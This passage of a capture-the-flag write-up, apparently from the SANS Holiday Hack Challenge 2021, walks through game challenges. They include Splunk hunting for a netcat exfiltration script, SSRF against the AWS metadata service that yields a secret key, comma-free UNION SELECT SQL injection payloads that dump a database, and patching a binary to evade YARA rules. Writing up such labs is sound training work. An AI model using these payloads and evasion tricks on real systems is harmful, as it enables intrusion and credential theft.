/usr/lib/openssh/ssh-keysign
```

There is a `chsh` command which allow us to change our shell! This is enabled by default for users, so note that this is not an exploitation of SUID bit. We can now change our shell to `/bin/bash`.

```sh
jcvvnijslh@grades:~$ chsh -s /bin/bash
Password: 

jcvvnijslh@grades:~$ cat /etc/passwd | grep jcvvnijslh
jcvvnijslh:x:1035:1035::/home/jcvvnijslh:/bin/bash
```

Now we run the scp command again.

```sh
scp -P 2222 jcvvnijslh@grades.elfu.org:SantaSecretToAWonderfulHolidaySeason.pdf SantaSecretToAWonderfulHolidaySeason.pdf
jcvvnijslh@grades.elfu.org's password: 
SantaSecretToAWonderfulHolidaySeason.pdf                                     100%  170KB 196.9KB/s   00:00 
```

Using either method, we can obtain the pdf file. This is what the pdf contains. "Kindness" is the first secret ingredient.


## 9) Splunk!


```
Task 1

Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.
```
Searching `git eddie` and filter by the Interesting Fields-> CommandLine:


```
git status
```

```
Task 2

Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!
```
Searching for `CommandLine="*partnerapi*"`.


```
git@github.com:elfnp3/partnerapi.git
```

```
Task 3

The 'partnerapi' project that Eddie worked on uses Docker. Gather the full docker command line that Eddie used to start the 'partnerapi' project on his workstation.
```
Searching for `CommandLine="*docker*" | table CommandLine`.


```
docker compose up
```

```
Task 4

Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here. You will need to search outside of Splunk (try GitHub) for the original name of the repository.
```

Searching `sourcetype="*json*"`, we came across `https://github.com/elfnp3/` repository.


Navigating through it lead us to the GitHub repository it was forked from.


```
https://github.com/snoopysecurity/dvws-node
```

```
Task 5

Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation.
```

Searching `partnerapi npm`.


```
holiday-utils-js
```

```
Task 6

Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search and capture the full process_name field of anything that looks suspicious.
```

Using the search they give `index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) 
| stats count by dest_ip dest_port`, and going under the `Events` tab, we see `netcat` command.


```
/usr/bin/nc.openbsd
```

```
Task 7

Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.
```
From the previous command, we change from `EventCode=3` (Network Connection Events) to `EventCode=1` (Process Creation Events) and added `process_name=/usr/bin/nc.openbsd`. We check the `ParentProcessId`, it's `6788`.

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) process_name=/usr/bin/nc.openbsd
| stats count by dest_ip dest_port
```


Now we search under this parent process id. We remove the `process_name=/usr/bin/nc.openbsd`, and add `ParentProcessId=6788` to the previous command.

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) ParentProcessId=6788
| stats count by dest_ip dest_port
```


We can see that the process accessed 6 files.

```
6
```

```
Task 8

Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.
```

Using the following search `index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="*.sh*"`, we can see the bash script.


```
preinstall.sh
```

After completing, Santa called me `whiz`!


## 10) Now Hiring!


Previously we did the walkthrough on the AWS IMDS Server. Now, we have to put it into practice!

Visiting the link brings us to Frost Tower's recruitment page.


By clicking on Apply Now, we are lead to fill out our application form. 


After testing the input parameters, I have came to a conclusion that the `Name` and `URL to your public NLBI report` are the parameters to be tampered. When a random URL is submitted in  `URL to your public NLBI report`, a normal "Submission Accepted" page is displayed. However, when the IMDS url is submitted, we can see additional information, "Naughty list recipients rejoice!" as well as a broken image called `[Name].jpg`.


We know that the access key is stored in `http://169.254.169.254/latest/meta-data/iam/security-credentials/[directory_name]`. I noticed that the broken image page gets return when the IMDS url is valid. As such, I ran `Burpsuite` Sniper to fuzz character by character to get the directory `jf-deploy-role`. In the image below, I obtained `j` first and is fuzzing the next character. The response length for `f` is different, which indicates a hit on the valid IMDS url.


After doing this, I begin to think to myself. How am I supposed to get the return output? It seems like actually, the return ouput is stored in `Nameofuser.jpg`, which explains why it is not a valid image! Submitting the URL as `http://169.254.169.254/latest/meta-data/iam/security-credentials/`, the content of the image is as followed.


Submitting `http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`, we obtained the secret access key.



```
"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX"
```

## 11) Customer Complaint Analysis


We were given a `jackfrosttower-network.pcap` to analyze. We notice that the complaints come from `POST` requests, we can filter the pcap with `http.request.method == "POST"`.


The complaints by the trolls seem to be in poor english. Except there is one that sound seemingly.. human.


She received complaints by 3 trolls as well!


```
Flud Hagg Yaqh
```

## 12) Frost Tower Website Checkup


We are given both the live server as well as the source code for this challenge. I looked through the code and notice that `session.uniqueID` is required to access the post-login pages. I looked for where it is set in the code and realised that there is an issue with the authentication flow in `postcontact`. When an email already exist in the `uniquecontact` table, registering it again will cause the `session.uniqueID` to be set.


As such, we can register an email twice to set it. Now, we can access the post-login directories, such as `/dashboard`.


After playing around and looking through the source code, I found a possible endpoint, `/detail/:id` that is susceptible to SQL injection. When there is more than one `id` given, a `comma(,)` will split them into each parameter. The `m.raw()` in `tempCont.escape(m.raw(ids[i]))` will prevent the `id` value from escaping, nullifying the `escape()` function. As such, our SQLi payload can be injected in `id`.


We can test it be injecting into `/detail/[SQL payload]`. We retrieved all details in `uniquecontact` with this payload.

```
1,2 or 1=1--
```



From the `encontact_db.sql` in the source code, I noticed that there are 7 columns in `uniquecontact` table. We can test it by injecting both payloads. We can verify this when the first payload did not throw an error, while the second one did.

```
1,2 ORDER BY 7--
1,2 ORDER BY 8--
```

Now, we want to use `UNION SELECT` to output the database information to the response. Since the ids are delimited by `comma(,)`, our payload cannot contain it. As such, our `UNION SELECT` payload will be crafted as such, which is equivalent to the first. We can see that `2,3,4,5` is reflected back in the response. We can use either of them to retrieve information form the database.

```
1,2 UNION SELECT 1,2,3,4,5,6,7--
#To
1,2 UNION SELECT * FROM ((select 1)A join (select 2)B join (select 3)C  join (select 4)D  join (select 5)E  join (select 6)F  join (select 7)G)--
```


I used the `2` field to query the database.

```

>> SELECT version()
10.6.5-MariaDB-1:10.6.5+maria~focal

>> SELECT group_concat(schema_name) FROM information_schema.schemata
information_schema,encontact

>> SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='encontact'
users,todo,emails,uniquecontact

>> SELECT group_concat(column_name) from (SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='todo') as New_Table
id,note,completed

>> SELECT group_concat(note) FROM todo
Buy up land all around Santa&#39;s Castle,Build bigger and more majestic tower next to Santa&#39;s,Erode Santa&#39;s influence at the North Pole via FrostFest, the greatest Con in history,Dishearten Santa&#39;s elves and encourage defection to our cause,Steal Santa&#39;s sleigh technology and build a competing and way better Frosty present delivery vehicle,Undermine Santa&#39;s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem,Force Santa to cancel Christmas,SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!!  Bwahahahahaha!,With Santa defeated, offer the old man a job as a clerk in the Frost Tower Gift Shop so we can keep an eye on him
```

Looks like Jack Frost plan to offer Santa a job as a clerk.


## 13 FPGA Programming


Upon accessing the page, we were asked to produce square waves accurately.


There is a [talk](https://www.youtube.com/watch?v=GFdG1PJ4QjA) which provide hints and outline of the code. There is also a [formula](https://inst.eecs.berkeley.edu/~eecs151/fa20/files/fpga_labs/lab3_spec.pdf) online which relates frequency to square wave cycles and clock cycles.


Since we need to find the square wave cycles, we adjust the formula accordingly.

```
square_wave_cycles = clock_cycles/(2 * frequency)
```

Then we need to use `$rtoi` to convert the value to an integer. Below is the final code

```verilog
// Note: For this lab, we will be working with QRP Corporation's CQC-11 FPGA.
// The CQC-11 operates with a 125MHz clock.
// Your design for a tone generator must support the following 
// inputs/outputs:
// (NOTE: DO NOT CHANGE THE NAMES. OUR AUTOMATED GRADING TOOL
// REQUIRES THE USE OF THESE NAMES!)
// input clk - this will be connected to the 125MHz system clock
// input rst - this will be connected to the system board's reset bus
// input freq - a 32 bit integer indicating the required frequency
//              (0 - 9999.99Hz) formatted as follows:
//              32'hf1206 or 32'd987654 = 9876.54Hz
// output wave_out - a square wave output of the desired frequency
// you can create whatever other variables you need, but remember
// to initialize them to something!

`timescale 1ns/1ns
module tone_generator (
    input clk,
    input rst,
    input [31:0] freq,
    output wave_out
);
    // ---- DO NOT CHANGE THE CODE ABOVE THIS LINE ---- 
    // ---- IT IS NECESSARY FOR AUTOMATED ANALYSIS ----
    // TODO: Add your code below. 
    // Remove the following line and add your own implementation. 
    // Note: It's silly, but it compiles...
    reg [31:0] counter;
    reg wave_out_reg;
    real cycles;
    integer cycles_int;
    real freq_Hz = freq/100; // Convert 32'd50000 to 500Hz
    real clk_freq = 125000000; // clk frequency = 125MHz
    assign wave_out = wave_out_reg;
    
    always @(posedge clk or posedge rst)
    begin
        if (rst == 1)
            begin
                counter <= 0;
                wave_out_reg <= 0;
            end
        else
            begin
                cycles <= clk_freq / (freq_Hz*2); 
                cycles_int <= $rtoi(cycles) - 1; // Convert to rounded integer
                if(counter >= cycles_int)
                    begin
                        counter <= 0;
                        wave_out_reg <= wave_out_reg ^ 1'b1;
                    end
                else
                    counter <= counter + 1 ;
            end
    end
endmodule
```

Now we have to run all the test cases.


And lastly, we completed the challenge.


## a) IPv6 Sandbox


Check our interface address with `ifconfig`.
```sh
>> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.160.3  netmask 255.255.240.0  broadcast 192.168.175.255
        inet6 2604:6000:1528:cd:d55a:f8a7:d30a:2  prefixlen 112  scopeid 0x0<global>
        inet6 fe80::42:c0ff:fea8:a003  prefixlen 64  scopeid 0x20<link>
        ether 02:42:c0:a8:a0:03  txqueuelen 0  (Ethernet)
        RX packets 7  bytes 746 (746.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11  bytes 946 (946.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`192.168.160.3` is our interface address. Let's use `nmap` to find other IP address in our network. our netmask is `255.255.240.0` which is `/20`.

```sh
>> nmap 192.168.160.0/20
Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-10 09:31 UTC
Nmap scan report for 192.168.160.1
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
3000/tcp filtered ppp
8000/tcp open     http-alt

Nmap scan report for ipv6-server.ipv6guest.kringlecastle.com (192.168.160.2)
Host is up (0.00022s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 5bf2a3d497df (192.168.160.3)
Host is up (0.00023s latency).
All 1000 scanned ports on 5bf2a3d497df (192.168.160.3) are closed

Nmap done: 4096 IP addresses (3 hosts up) scanned in 36.16 seconds
```

Checking out the http port on `192.168.160.2` gives us a hint to use IPv6. 

```sh
>> curl 192.168.160.2
<html>
<head><title>Candy Striper</title></head>
<body>
<marquee>I love striping!</marquee>
This site is a lot more fun over IPv6.  Seriously - this isn't a trick like a certain ASCII telnet server....
</body>
</html>
```

Since we have the hostname, we can see the IPv6 address using `ping6`.

```sh
>> ping6 ipv6-server.ipv6guest.kringlecastle.com                             
PING ipv6-server.ipv6guest.kringlecastle.com(ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405)) 56 data bytes
64 bytes from ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405):icmp_seq=1 ttl=64 time=0.056 ms
64 bytes from ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405):icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405):icmp_seq=3 ttl=64 time=0.047 ms
64 bytes from ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405):icmp_seq=4 ttl=64 time=0.050 ms
64 bytes from ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405):icmp_seq=5 ttl=64 time=0.049 ms
```

Using `curl` on it hint us to connect to the other TCP port.

```sh
>> curl -6 http://[2604:6000:1528:cd:d55a:f8a7:d30a:e405]
<html>
<head><title>Candy Striper v6</title></head>
<body>
<marquee>Connect to the other open TCP port to get the striper's activation phrase!</marquee>
</body>
</html>
```

Using nmap on the IPv6 address, we found port 9000 open.

```sh
>> nmap -6 -sV -p1-65535 2604:6000:1528:cd:d55a:f8a7:d30a:e405               
Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-10 09:41 UTC                               
Nmap scan report for ipv6-server.ipv6guest.kringlecastle.com (2604:6000:1528:cd:d55a:f8a7:d30a:e405)
Host is up (0.000089s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        nginx 1.14.2
9000/tcp open  cslistener?                                                                    
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                 
SF-Port9000-TCP:V=7.70%I=7%D=12/10%Time=61B320BF%P=x86_64-pc-linux-gnu%r(N                    
SF:ULL,D,"PieceOnEarth\n")%r(GenericLines,D,"PieceOnEarth\n")%r(GetRequest                    
SF:,D,"PieceOnEarth\n")%r(HTTPOptions,D,"PieceOnEarth\n")%r(RTSPRequest,D,                    
SF:"PieceOnEarth\n")%r(RPCCheck,D,"PieceOnEarth\n")%r(DNSVersionBindReqTCP                    
SF:,D,"PieceOnEarth\n")%r(DNSStatusRequestTCP,D,"PieceOnEarth\n")%r(Help,D                    
SF:,"PieceOnEarth\n")%r(SSLSessionReq,D,"PieceOnEarth\n")%r(TLSSessionReq,                    
SF:D,"PieceOnEarth\n")%r(Kerberos,D,"PieceOnEarth\n")%r(SMBProgNeg,D,"Piec                    
SF:eOnEarth\n")%r(X11Probe,D,"PieceOnEarth\n")%r(FourOhFourRequest,D,"Piec                    
SF:eOnEarth\n")%r(LPDString,D,"PieceOnEarth\n")%r(LDAPSearchReq,D,"PieceOn                    
SF:Earth\n")%r(LDAPBindReq,D,"PieceOnEarth\n")%r(SIPOptions,D,"PieceOnEart                    
SF:h\n")%r(LANDesk-RC,D,"PieceOnEarth\n")%r(TerminalServer,D,"PieceOnEarth                    
SF:\n")%r(NCP,D,"PieceOnEarth\n")%r(NotesRPC,D,"PieceOnEarth\n")%r(JavaRMI                    
SF:,D,"PieceOnEarth\n")%r(WMSRequest,D,"PieceOnEarth\n")%r(oracle-tns,D,"P                    
SF:ieceOnEarth\n")%r(ms-sql-s,D,"PieceOnEarth\n")%r(afp,D,"PieceOnEarth\n"                    
SF:)%r(giop,D,"PieceOnEarth\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

Running a curl command, we obtained the flag.
```sh
>> curl -6 http://[2604:6000:1528:cd:d55a:f8a7:d30a:e405]:9000               
PieceOnEarth
```

## b) Yara Analysis


Running `the_critical_elf_app`, i was hit with a YARA rule 135. The hit was because the binary contains `candycane` in it.

```sh
>> ./the_critical_elf_app 
yara_rule_135 ./the_critical_elf_app

>> cat yara_rules/rules.yar | grep -A 11 "yara_rule_135 {"
rule yara_rule_135 {
   meta:
      description = "binaries - file Sugar_in_the_machinery"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
   strings:
      $s = "candycane"
   condition:
      $s
}

Using `vim` coupled with `xxd` I replaced the candycane with /00 bytes.

>> vim the_critical_elf_app
:%!xxd
/candycane
Enter
i
(Modify left binary removing "e")
esc
:!xxd -r
:w
```

I ran the app again. This time i was hit with YARA rule 1056, which specifies a libc.so.6 and "rogram!!" string.

```
>> ./the_critical_elf_app 
yara_rule_1056 ./the_critical_elf_app

>> cat yara_rules/rules.yar | grep -A 12 "yara_rule_1056 {"
rule yara_rule_1056 {
   meta: 
        description = "binaries - file frosty.exe"
        author = "Sparkle Redberry"
        reference = "North Pole Malware Research Lab"
        date = "1955-04-21"
        hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
    strings:
        $s1 = {6c 6962 632e 736f 2e36}
        $hs2 = {726f 6772 616d 2121}
    condition:
        all of them
}
```


Initially, I thought I have to do call the libc-2.31.so directly since libc.so.6 is a symbolic link. Then I realise that the condition is `all of them`, which means that I only have to modify "rogram!!" string.

```
>> ls -la /usr/lib/x86_64-linux-gnu/ | grep libc
-rwxr-xr-x  1 root root  2029224 Dec 16  2020 libc-2.31.so
lrwxrwxrwx  1 root root       12 Dec 16  2020 libc.so.6 -> libc-2.31.so

```


We hit the next rule.
```sh

>> ./the_critical_elf_app 
yara_rule_1732 ./the_critical_elf_app

>> cat yara_rules/rules.yar | grep -A 31 "yara_rule_1732 {"
rule yara_rule_1732 {
   meta:
      description = "binaries - alwayz_winter.exe"
      author = "Santa"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-22"
      hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
   strings:
      $s1 = "This is critical for the execution of this program!!" fullword ascii
      $s2 = "__frame_dummy_init_array_entry" fullword ascii
      $s3 = ".note.gnu.property" fullword ascii
      $s4 = ".eh_frame_hdr" fullword ascii
      $s5 = "__FRAME_END__" fullword ascii
      $s6 = "__GNU_EH_FRAME_HDR" fullword ascii
      $s7 = "frame_dummy" fullword ascii
      $s8 = ".note.gnu.build-id" fullword ascii
      $s9 = "completed.8060" fullword ascii
      $s10 = "_IO_stdin_used" fullword ascii
      $s11 = ".note.ABI-tag" fullword ascii
      $s12 = "naughty string" fullword ascii
      $s13 = "dastardly string" fullword ascii
      $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii
      $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii
      $s16 = "GLIBC_2.2.5" fullword ascii
      $s17 = "its_a_holly_jolly_variable" fullword ascii
      $s18 = "__cxa_finalize" fullword ascii
      $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii
      $s20 = "__libc_csu_init" fullword ascii
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
}
```
To easily beat the rule, we can change the ELF header from `454c4602` to `454c4600`.


Running the app, we bypassed the YARA rules.

```sh
>> ./the_critical_elf_app 
Machine Running.. 
Toy Levels: Very Merry, Terry
Naughty/Nice Blockchain Assessment: Untampered
Candy Sweetness Gauge: Exceedingly Sugarlicious
Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564
```

## c) Document Analysis


We list the files in the directories and noticed that there are 25 files.

```sh
>> ls -la                                                            
total 420                                                                                      
drwxr-xr-x 1 elf  elf   4096 Dec  8 03:10 .                                                    
drwxr-xr-x 1 root root  4096 Dec  4 18:49 ..                                                   
-rw-r--r-- 1 elf  elf    220 Aug  4 20:25 .bash_logout                                         
-rw-r--r-- 1 elf  elf     27 Nov 23 15:48 .bashrc                                              
-rw-r--r-- 1 elf  elf    807 Aug  4 20:25 .profile                                             
-rw-r--r-- 1 elf  elf  13418 Nov 23 15:48 2021-12-01.docx                                      
-rw-r--r-- 1 elf  elf  13420 Nov 23 15:48 2021-12-02.docx                                      
-rw-r--r-- 1 elf  elf  13426 Nov 23 15:48 2021-12-03.docx                                      
-rw-r--r-- 1 elf  elf  13384 Nov 23 15:48 2021-12-04.docx                                      
-rw-r--r-- 1 elf  elf  13469 Nov 23 15:48 2021-12-05.docx
-rw-r--r-- 1 elf  elf  13436 Nov 23 15:48 2021-12-06.docx
-rw-r--r-- 1 elf  elf  13420 Nov 23 15:48 2021-12-07.docx
-rw-r--r-- 1 elf  elf  13364 Nov 23 15:48 2021-12-08.docx
-rw-r--r-- 1 elf  elf  13396 Nov 23 15:48 2021-12-09.docx
-rw-r--r-- 1 elf  elf  13414 Nov 23 15:48 2021-12-10.docx
-rw-r--r-- 1 elf  elf  13411 Nov 23 15:48 2021-12-11.docx
-rw-r--r-- 1 elf  elf  13402 Nov 23 15:48 2021-12-12.docx
-rw-r--r-- 1 elf  elf  13425 Nov 23 15:48 2021-12-13.docx
-rw-r--r-- 1 elf  elf  13454 Nov 23 15:48 2021-12-14.docx
-rw-r--r-- 1 elf  elf  13438 Nov 23 15:48 2021-12-15.docx
-rw-r--r-- 1 elf  elf  13369 Nov 23 15:48 2021-12-16.docx
-rw-r--r-- 1 elf  elf  13398 Nov 23 15:48 2021-12-17.docx
-rw-r--r-- 1 elf  elf  13415 Nov 23 15:48 2021-12-18.docx
-rw-r--r-- 1 elf  elf  13383 Nov 23 15:48 2021-12-19.docx
-rw-r--r-- 1 elf  elf  13409 Nov 23 15:48 2021-12-20.docx
-rw-r--r-- 1 elf  elf  13519 Nov 23 15:48 2021-12-21.docx
-rw-r--r-- 1 elf  elf  13387 Nov 23 15:48 2021-12-22.docx
-rw-r--r-- 1 elf  elf  13414 Nov 23 15:48 2021-12-23.docx
-rw-r--r-- 1 elf  elf  13411 Nov 23 15:48 2021-12-24.docx
-rw-r--r-- 1 elf  elf  13449 Nov 23 15:48 2021-12-25.docx
```

We can run a `grep` command together with `exiftool` to check the modified date of the files.

```sh
>> exiftool 2021-12-**.docx  | grep -H "^Modify Date"                         
(standard input):Modify Date                     : 2021:12:01 00:00:00Z                        
(standard input):Modify Date                     : 2021:12:02 00:00:00Z                        
(standard input):Modify Date                     : 2021:12:03 00:00:00Z                        
(standard input):Modify Date                     : 2021:12:04 00:00:00Z                        
(standard input):Modify Date                     : 2021:12:05 00:00:00Z
(standard input):Modify Date                     : 2021:12:06 00:00:00Z
(standard input):Modify Date                     : 2021:12:07 00:00:00Z
(standard input):Modify Date                     : 2021:12:08 00:00:00Z
(standard input):Modify Date                     : 2021:12:09 00:00:00Z
(standard input):Modify Date                     : 2021:12:10 00:00:00Z
(standard input):Modify Date                     : 2021:12:11 00:00:00Z
(standard input):Modify Date                     : 2021:12:12 00:00:00Z
(standard input):Modify Date                     : 2021:12:13 00:00:00Z
(standard input):Modify Date                     : 2021:12:14 00:00:00Z
(standard input):Modify Date                     : 2021:12:15 00:00:00Z
(standard input):Modify Date                     : 2021:12:16 00:00:00Z
(standard input):Modify Date                     : 2021:12:17 00:00:00Z
(standard input):Modify Date                     : 2021:12:18 00:00:00Z
(standard input):Modify Date                     : 2021:12:19 00:00:00Z
(standard input):Modify Date                     : 2021:12:20 00:00:00Z
(standard input):Modify Date                     : 2021:12:24 23:59:59Z
(standard input):Modify Date                     : 2021:12:22 00:00:00Z
(standard input):Modify Date                     : 2021:12:23 00:00:00Z
(standard input):Modify Date                     : 2021:12:24 00:00:00Z
(standard input):Modify Date                     : 2021:12:25 00:00:00Z
```

Line 21 looks suspicious. How can a `2021-12-21` file have a modifed date of `2021:12:24`? Jack Frost must have modified file `2021-12-21.docx`.


## d) HoHo ... No


I went through the logs and extracted the type of bad requests as followed:

```
Failed login from 208.82.215.63 for rudolph
Login from 127.197.160.104 rejected due to unknown user name
Invalid heartbeat 'charlie' from 137.207.4.128
136.233.222.247 sent a malformed request
```

We need to create a filter to detect these bad requests.

```
>> nano /etc/fail2ban/filter.d/hohonofilter.conf

[Definition]
failregex = Failed login from <HOST> for (.*?)
            Login from <HOST> rejected due to unknown user name
            Invalid heartbeat '(.*?)' from <HOST>
            <HOST> sent a malformed request
```

If an IP address is malicious, we have to call an action to add the IP address to the naughty list. 

```
>> nano /etc/fail2ban/action.d/hohonoaction.conf

[Definition]
actionban = /root/naughtylist add <ip>
[Init]
```

We need a jail file to set the conditions to 'jail' the IP address. if there are 10 `maxretry` within `findtime` 3600 seconds(1 hour) which match the `filter` for a specific IP address in `logpath`, the `action` will be called.

```
>> nano /etc/fail2ban/jail.d/hohonojail.local

[hohonojail]
enabled = true
filter = hohonofilter
logpath = /var/log/hohono.log
action = hohonoaction
findtime = 3600
maxretry = 10
bantime  = -1
```

We restart the fail2ban service and refresh the log, we managed to block the malicious IP addresses.


## e) Grepping for Gold


```sh
>> cat bigscan.gnmap | grep 34.76.1.22
Host: 34.76.1.22 ()     Status: Up
Host: 34.76.1.22 ()     Ports: 62078/open/tcp//iphone-sync///      Ignored State: closed (999)

>> cat bigscan.gnmap | grep 34.77.207.226
Host: 34.77.207.226 ()     Status: Up
Host: 34.77.207.226 ()     Ports: 8080/open/tcp//http-proxy///      Ignored State: filtered (999)

>> cat bigscan.gnmap | sort --unique | grep -c "Up"
26054

>> cat bigscan.gnmap | grep -c -e "80/open/tcp//http///" -e "443/open/tcp//https///" -e "8080/open/tcp//http-proxy///" 
14372

>> echo $((`cat bigscan.gnmap | sort --unique | grep -c "Up"`-`cat bigscan.gnmap | grep "Ports" | wc -l`))
402

>> echo $((`grep Up bigscan.gnmap | wc -l` - `grep Ports bigscan.gnmap | wc -l`))

>> cat bigscan.gnmap  | grep -o -n "/open/" | cut -d : -f 1 | uniq -c | sort

...
11 51462
11 5506
11 6053
11 8049
11 8358
12 11871
12 20450
12 26124
12 39743
12 43460
```


## f) Frostavator

Simply solving the logic gates.


## g) Holiday Hero

Played a game with a stranger to clear an achievement.


## h) IMDS Exploration

Short tutorial for enumerating AWS IMDS.


```
>> ping 169.254.169.254

>> curl http://169.254.169.254
latest

>> curl http://169.254.169.254/latest
dynamic
meta-data

>> curl http://169.254.169.254/latest/dynamic
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature

>> curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}

>> curl http://169.254.169.254/latest/meta-data
...
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time

>> curl http://169.254.169.254/latest/meta-data/public-hostname; echo;
ec2-192-0-2-54.compute-1.amazonaws.com

>> curl http://169.254.169.254/latest/meta-data/iam/security-credentials
elfu-deploy-role

>> curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
